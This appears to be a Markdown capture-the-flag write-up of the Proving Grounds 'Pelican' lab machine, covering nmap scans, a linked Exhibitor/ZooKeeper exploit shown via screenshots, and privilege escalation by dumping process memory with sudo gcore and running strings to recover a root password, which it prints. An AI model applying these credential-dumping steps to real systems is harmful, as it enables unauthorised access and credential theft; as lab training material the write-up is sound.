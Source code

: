 ```yaml
---
title: Pelican Write up
date: 2023-12-1 12:00:00 -500
categories: [writeup]
tags: [proving grounds]
# TAGS should always be lowercase
---
```


# Welcome to my Pelican Write-up 

## Recon

Let's start with some enumeration.



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -Pn -T4 -oA nmap 192.168.164.98</span>
</div>


    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 09:20 EST
    Nmap scan report for 192.168.164.98 (192.168.164.98)
    Host is up (0.13s latency).
    Not shown: 993 closed tcp ports (reset)
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
    |   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
    |_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  etbios-p  Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
    631/tcp  open  ipp         CUPS 2.2
    |_http-server-header: CUPS/2.2 IPP/2.1
    | http-methods: 
    |_  Potentially risky methods: PUT
    |_http-title: Forbidden - CUPS v2.2.
    2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
    |   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
    |_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
    8080/tcp open  http        Jetty 1.0
    |_http-title: Error 404 Not Found
    |_http-server-header: Jetty(1.0)

    8081/tcp open  http        nginx 1.14.2
    |_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
    |_http-server-header: nginx/1.14.2



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -p- --min-rate=5000 192.168.164.98</span>
</div>
<br>


![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image1.png)



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sU --min-rate=10000 192.168.164.98</span>
</div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image2.png)

## Initial Foothold

This machine's ssh and samba versions are not vulnerable. Also there is nothing to be found on port 8080.

Let's visit the web app running on port 8081.

http://192.168.164.98:8081


![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image3.png)


We get redirected to http://192.168.164.98:8080/exhibitor/v1/ui/index.html

I searched in google for the zookeeper exploit then I found this:

[https://www.exploit-db.com/exploits/48654](https://www.exploit-db.com/exploits/48654)



![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image8.png)

To exploit the vulnerability we need to follow these steps:

Config:

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image4.png)


Enable Editing

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image5.png)

Edit the script

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image6.png)


![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image7.png)


### <span style="color:green">2nd Method



![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image9.png)





## Privilege Escalation

Using linpeas I found:

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image10.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo -l</span>
</div>
<br>


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image11.png)

It seems like we can run /usr/bin/gcore without a password as charles.

![gif 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/heheboy.gif)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">It can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named core.$PID, that is then often filtered with strings to narrow down relevant information.</span>


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> ps -ef | grep ssh</span>
</div>
<br>

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo gcore 526</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.526</span>
</div>
<br>

I got lots of output but nothing interesting. Then I tried with password instead of ssh.


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> ps -ef | grep pass</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> sudo gcore 493</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.493</span>
</div>
<br>


![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image15.png)

Interesting! We found a password.

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image14.png)


<div style="background-color: #1e2124; padding: 10px;">
>harles@pelican:~$<span style="color:red"> su</span>
</div>
<br>

ClogKingpinInning731


<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /root/proof.txt && whoami && hostname && ip a</span>
</div>
<br>


![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image16.png)



<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /home/charles/local.txt && whoami && hostname && ip a</span>
</div>
<br>



![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image17.png)


pwned :)



[link](https://drive.google.com/drive/folders/1cb6DcmwJpbyv2X6pi44xN4QwIw1vMlYx)


https://drive.google.com/drive/folders/1cb6DcmwJpbyv2X6pi44xN4QwIw1vMlYx

[LAB](https://drive.google.com/drive/folders/1cb6DcmwJpbyv2X6pi44xN4QwIw1vMlYx)

[cours](https://drive.google.com/drive/folders/1cb6DcmwJpbyv2X6pi44xN4QwIw1vMlYx)